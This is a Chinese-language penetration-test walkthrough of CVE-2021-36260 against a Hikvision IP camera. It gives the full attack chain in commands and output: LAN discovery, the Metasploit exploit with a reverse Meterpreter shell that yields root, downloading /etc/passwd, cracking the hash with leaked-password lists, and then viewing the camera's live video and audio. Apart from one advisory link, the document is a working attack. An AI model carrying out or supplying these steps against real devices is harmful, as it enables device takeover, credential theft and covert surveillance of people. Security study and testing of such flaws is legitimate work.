


# Hikvision IP 摄像头未经身份验证的命令注入

**英文**: Hikvision IP Camera Unauthenticated Command Injection.  
**CVE 代码**: CVE-2021-36260.

## 设备发现

```console
> sudo netdiscover
Currently scanning: 192.168.16.0/16   |   Screen View: Unique Hosts                                                                                                                 
                                                                                                                                                                                     
 36 Captured ARP Req/Rep packets, from 34 hosts.   Total size: 2142                                                                                                                  
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
... SKIP ...
 192.168.2.10    [DEL]                  1      60  Hangzhou Hikvision Digital Technology Co.,Ltd.
... SKIP ...

> sudo nmap -sV 192.168.2.10
Starting Nmap 7.94 ( https://nmap.org ) at [DEL]
Nmap scan report for 192.168.2.10
Host is up (0.011s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE SERVICE   VERSION
80/tcp   open  http      webserver
443/tcp  open  ssl/https webserver
554/tcp  open  rtsp      Hikvision 7513 POE IP camera rtspd
8000/tcp open  http-alt?
9010/tcp open  sdr?
... SKIP ...
```

通过 netdiscover 发现局域网中存在 Hikvision 设备.  
使用 namp 扫描其开放的端口和服务, 结果显示目标设备在端口 554 上运行了 RTSP 服务, 且被识别为 Hikvision IP Camera.

## 漏洞利用

使用 Metasploit 检索并利用相关漏洞.

```console
msf6 > search hikvision

Matching Modules
================

   #  Name                                                           Disclosure Date  Rank       Check  Description
   -  ----                                                           ---------------  ----       -----  -----------
   0  exploit/linux/misc/hikvision_rtsp_bof                          2014-11-19       normal     No     Hikvision DVR RTSP Request Remote Code Execution
   1  exploit/linux/http/hikvision_cve_2021_36260_blind              2021-09-18       excellent  Yes    Hikvision IP Camera Unauthenticated Command Injection
   2  auxiliary/admin/http/hikvision_unauth_pwd_reset_cve_2017_7921  2017-09-23       normal     Yes    Hikvision IP Camera Unauthenticated Password Change Via Improper Authentication Logic
   3  auxiliary/gather/hikvision_info_disclosure_cve_2017_7921       2017-09-23       normal     Yes    Unauthenticated information disclosure such as configuration, credentials and camera snapshots of a vulnerable Hikvision IP Camera


Interact with a module by name or index. For example info 3, use 3 or use auxiliary/gather/hikvision_info_disclosure_cve_2017_7921

msf6 > use 1
[*] Using configured payload cmd/unix/bind_busybox_telnetd
msf6 exploit(linux/http/hikvision_cve_2021_36260_blind) > set rhost 192.168.2.10
rhost => 192.168.2.10
msf6 exploit(linux/http/hikvision_cve_2021_36260_blind) > set target 1
target => 1
msf6 exploit(linux/http/hikvision_cve_2021_36260_blind) > set lhost 192.168.2.100
lhost => 192.168.2.100
msf6 exploit(linux/http/hikvision_cve_2021_36260_blind) > run

[*] Started reverse TCP handler on 192.168.2.100:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. It appears the target executed the provided sleep command.
[*] Executing Linux Dropper for linux/armle/meterpreter/reverse_tcp
[*] Command Stager progress -   0.38% done (25/6604 bytes)
... SKIP ...
[*] Sending stage (934728 bytes) to 192.168.2.10
[*] Command Stager progress -  99.76% done (6588/6604 bytes)
[*] Meterpreter session 1 opened (192.168.2.100:4444 -> 192.168.2.10:39092) at [DEL]
[*] Command Stager progress - 100.00% done (6604/6604 bytes)

meterpreter > getuid
Server username: root
```

查找并使用模块 `linux/http/hikvision_cve_2021_36260_blind`.  
成功获取建立 root 权限的 Meterpreter 会话.

```console
meterpreter > sysinfo
Computer     : 192.168.2.10
OS           :  (Linux 3.0.8)
Architecture : ck810l
BuildTuple   : armv5l-linux-musleabi
Meterpreter  : armle/linux
meterpreter > download /etc/passwd
[*] Downloading: /etc/passwd -> /home/sms/passwd
[*] Downloaded 158.00 B of 158.00 B (100.0%): /etc/passwd -> /home/sms/passwd
[*] Completed  : /etc/passwd -> /home/sms/passwd
```

获取系统基本信息并下载 `/etc/passwd` 用于后续破解工作.

```console
meterpreter > netstat

Connection list
===============

    Proto  Local address             Remote address              State        User  Inode  PID/Program name
    -----  -------------             --------------              -----        ----  -----  ----------------
    tcp    0.0.0.0:9010              0.0.0.0:*                   LISTEN       0     0
    tcp    0.0.0.0:9020              0.0.0.0:*                   LISTEN       0     0
    tcp    192.168.2.10:60791        [DEL]                       ESTABLISHED  0     0
    tcp    192.168.2.10:39092        192.168.2.100:4444          ESTABLISHED  0     0
    tcp    :::8000                   :::*                        LISTEN       0     0
    tcp    :::322                    :::*                        LISTEN       0     0
    tcp    :::554                    :::*                        LISTEN       0     0
    tcp    :::80                     :::*                        LISTEN       0     0
    tcp    :::443                    :::*                        LISTEN       0     0
    tcp    ::ffff:192.168.2.10:554   ::ffff:192.168.2.109:39240  ESTABLISHED  0     0
    tcp    ::ffff:192.168.2.10:554   ::ffff:192.168.2.109:39332  ESTABLISHED  0     0
    tcp    ::ffff:192.168.2.10:8000  ::ffff:192.168.2.109:33514  ESTABLISHED  0     0
    udp    239.255.255.250:37020     0.0.0.0:*                                0     0
    udp    0.0.0.0:46524             0.0.0.0:*                                0     0
    udp    0.0.0.0:5353              0.0.0.0:*                                0     0
    udp    :::36495                  :::*                                     0     0
    udp    :::5353                   :::*                                     0     0

```

通过网络状态可以看出, 除了与本机 (`192.168.2.100`) 和一台外网计算机 (`[DEL]`) 进行通讯外, 还使用 RTSP 协议与另一台位于局域网内的计算机 (`192.168.2.109`) 通讯.

```console
> sudo nmap -sV 192.168.2.109
Starting Nmap 7.94 ( https://nmap.org ) at [DEL]
Nmap scan report for 192.168.2.109
Host is up (0.11s latency).
Not shown: 996 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Webs
554/tcp   open  rtsp    Apple AirTunes rtspd
8000/tcp  open  ipcam   Hikvision IPCam control port
49152/tcp open  upnp    Portable SDK for UPnP devices 1.6.18 (Linux 3.10.0_hi3536; UPnP 1.0)
... SKIP ...
```

通过 nmap 的检测结果可以确定这台局域网计算机为 Hikvision NVR.  
经测试也可以使用相同的账户登录 HTTP 后台.

## 弱密码攻击

使用 hashcat 查找 `/etc/passwd` 中哈希值对应的原文.

```console
> cat passwd
root:ToCOv8qxP13qs:0:0:root:/root/:/bin/psh
root:$1$yi$KMvI/d5vTBFIySCw1EjGt0:0:0:root:/root/:/bin/psh
admin:$1$yi$KMvI/d5vTBFIySCw1EjGt0:0:0:root:/:/bin/psh

> vim passwd # 删除第一行

> cat passwd
root:$1$yi$KMvI/d5vTBFIySCw1EjGt0:0:0:root:/root/:/bin/psh
admin:$1$yi$KMvI/d5vTBFIySCw1EjGt0:0:0:root:/:/bin/psh

> hashcat -o result.txt passwd SecLists/Passwords/Leaked-Databases/*.txt
hashcat (v6.2.6) starting in autodetect mode

... SKIP ...

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 500 (md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5))
Hash.Target......: $1$yi$KMvI/d5vTBFIySCw1EjGt0
Time.Started.....: [DEL] (1 sec)
Time.Estimated...: [DEL] (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (SecLists/Passwords/Leaked-Databases/000webhost.txt)
Guess.Queue......: 1/53 (1.89%)
Speed.#1.........:  1029.6 kH/s (5.18ms) @ Accel:64 Loops:31 Thr:256 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 474988/720302 (65.94%)
Rejected.........: 0/474988 (0.00%)
Restore.Point....: 393216/720302 (54.59%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:992-1000
Candidate.Engine.: Device Generator
Candidates.#1....: non206220 -> ideas29
Hardware.Mon.#1..: Temp: 50c Util: 62% Core:2535MHz Mem:8000MHz Bus:8

... SKIP ...
> cat result.txt
$1$yi$KMvI/d5vTBFIySCw1EjGt0:l1234567
```

hashcat 成功查找到结果, 得到用户 `root` 和 `admin` 的密码 `l1234567`.

## 获取监控画面和音频

### RTSP

使用 VLC 接收 RTSP 流, 格式为 `rtsp://<user>:<passwd>@<ip>:<port>`.

{ width=60% style="display: block; margin: 0 auto" }  

### HTTP

直接通过 IP Camera 提供的 HTTP 协议登录后台.

{ width=90% style="display: block; margin: 0 auto" }  

## 防范

- <https://www.hikvision.com/sg/support/cybersecurity/security-advisory/security-notification-command-injection-vulnerability-in-some-hikvision-products/>.
